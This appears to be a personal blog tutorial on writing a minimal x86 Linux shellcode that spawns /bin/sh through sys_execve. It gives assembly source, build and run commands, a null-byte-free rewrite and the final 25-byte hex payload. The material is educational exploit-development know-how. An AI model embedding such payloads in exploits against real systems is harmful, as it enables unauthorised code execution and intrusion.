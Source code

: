 ```yaml
---
layout: post
title:  "Creating a simple x86 shellcode"
date:   2017-09-17 01:51:00
disqus: true
categories: Reversing
---
```

It's a simple x86 shellcode to call /bin/sh, but the first thing is understand how the sys_execve works, to do so you can access this <a href="https://syscalls.kernelgrok.com/" target="_blank">site</a> that gives to you a list with all the x86 syscalls, and the values you need to put in each register, just search for sys_execve.

The initial code bellow have all the comments to make it easy to understand how to use the sys_execve,

{% highlight Bash %}
section .data:
	cmd: db "/bin/sh",0x0
section .text:
	global _start
	_start:
		mov eax,0x0b	;use sys_execve
		mov ebx,cmd	;first arg, file to execute
		mov edx,0x0	;first parameter no usage
		mov ecx,0x0	;second parameter no usage
		int 0x80	;kernel interrupt
{% endhighlight %}

Just to test this code, lets compile it, link and execute the binary shell to get the /bin/sh

{% highlight Bash %}
root@demoniware:~/shellcode# nasm -f elf32 sh3llc0d3.asm && ld -m elf_i386 -s -o shell sh3llc0d3.o
root@demoniware:~/shellcode# ./shell
# id
uid=0(root) gid=0(root) groups=0(root)
{% endhighlight %}

But this code is not nullbyte free and it's a problem when we are working with shellcodes, so with some work I got this code,

{% highlight Bash %}
xor eax,eax     ; zero to eax
push eax        ; put 0 in stack, end of string
push 0x68732f6e ; part of /bin/sh
push 0x69622f2f ; part of /bin/sh
mov ebx,esp     ; mov /bin/sh to ebx
push eax        ; put NULL on argv
push ebx        ; put filename on stack
mov ecx, esp    ; put filename to ecx
xor edx,edx     ; envp = NULL
mov al,0x0b     ; 0x0b to call sys_execve
int 0x80        ; kernel interrupt
{% endhighlight %}

To confirm if my code is free of nullbytes, I can use this site <a href="https://defuse.ca/online-x86-assembler.htm#disassembly" target="_blank">defuse.ca</a>, that translate asm instructions to opcodes, and now I have a shellcode free of nullbytes with 25 bytes.

{% highlight Bash %}
\x31\xC0\x50\x68\x6E\x2F\x73\x68\x68\x2F\x2F\x62\x69\x89\xE3\x50\x53\x89\xE1\x31\xD2\xB0\x0B\xCD\x80
{% endhighlight %}

### Thanks to @thiagopeixoto for the help
